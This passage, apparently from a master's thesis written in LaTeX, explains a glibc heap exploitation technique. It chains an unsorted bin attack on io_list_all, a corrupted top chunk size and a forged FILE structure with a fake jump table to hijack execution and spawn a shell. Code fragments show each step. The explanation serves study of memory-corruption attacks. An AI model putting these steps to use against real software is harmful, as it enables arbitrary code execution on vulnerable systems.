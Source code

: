 \documentclass{masterthesis}
\begin{document}
The final result is the below code :
\begin{lstlisting}[language=c,frame=tlrb]
io_list_all = top[2] + 0x9a8;
\end{lstlisting}

For the rest of the attack, we can use an unsorted bin attack. As we mentioned before, in an unsorted bin attack we can overwrite the bk pointer with any address, in this case, we want to overwrite io\_list\_all with the address of the unsorted bin 
\begin{lstlisting}[language=c,frame=tlrb]
top[3] = io_list_all - 0x10;
\end{lstlisting}


At least we need to call system function inorder to run the shell:
\begin{lstlisting}[language=c,frame=tlrb]
memcpy( ( char *) top, "/bin/sh\x00", 8);
\end{lstlisting}


As we mentioned, the libc flushes all file pointers inside the io\_list\_all link list, which currently overwrites with the address of the unsorted bin. 
The goal is to gain control of execution with the help of fd pointers. In the real list, the next file pointer is located at base\_address+0x68, if we consider bins, the mentioned address is a small bin[4] which keeps a chunk between 90 to 98. We can conclude, if we manipulate the top chunk size again and set the size of 97, on the next allocation with a smaller size, the heap manager checks chunks in the unsorted bin and puts it into corresponding bins which are smallbin[4]. Also, if we check the source code, we can see this size check : 
\begin{lstlisting}[language=c,frame=tlrb]
if (__builtin_expect (victim->size <= 2 * SIZE_SZ, 0)
    || __builtin_expect (victim->size > av->system_mem, 0))
   malloc_printerr (check_action, "malloc(): memory corruption",
       chunk2mem (victim), av); 
\end{lstlisting}


During iteration over chunks inside the unsorted bin, the libc checks the size of the chunk, if the size smaller than MINSIZE then the abort procedure called and an attack be performed.
\begin{lstlisting}[language=c,frame=tlrb]
top[1] = 0x61;
\end{lstlisting}


Now the chain of events are complete , but we have to meet the condition of IO\_LIST\_ALL
\begin{lstlisting}[language=c,frame=tlrb]
 FILE *fp = (FILE *) top;
 fp->_mode = 0; // top+0xc0
 fp->_IO_write_base = (char *) 2; // top+0x20
 fp->_IO_write_ptr = (char *) 3; // top+0x28
 size_t *jump_table = &top[12]; // controlled memory
 jump_table[3] = (size_t) &winner;
 *(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
\end{lstlisting}
\end{document}

